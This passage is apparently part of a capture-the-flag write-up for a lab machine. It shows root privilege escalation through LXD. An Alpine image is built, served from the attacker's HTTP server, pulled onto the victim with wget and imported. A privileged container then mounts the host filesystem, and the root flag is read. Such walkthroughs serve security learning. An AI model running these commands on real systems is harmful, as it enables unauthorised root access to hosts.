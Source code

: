 ```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

![[Brianfuck-26.png]]

```bash
python3 -m http.server --bind 10.10.14.6 80
```

### Rhost

```txt
# Step 3: Run this script and you will get root [Victim Machine] 
# Step 4: Once inside the container, navigate to /mnt/root to see all resources from the host machine
```

```bash
cd /tmp
wget http://10.10.14.6/alpine-v3.13-x86_64-20210218_0139.tar.gz
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
```

![[Brianfuck-27.png]]

```bash
lxc image list
```
![[Brianfuck-28.png]]

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
![[Brianfuck-29.png]]

```bash
id
cd /mnt
cd root
cd root
ls
cat root.txt
# Flag
6efc1a5dbb8904751ce6566a305bb8ef
```

![[Brianfuck-30.png]]

Yes, we get the root privilege and catch the root flag!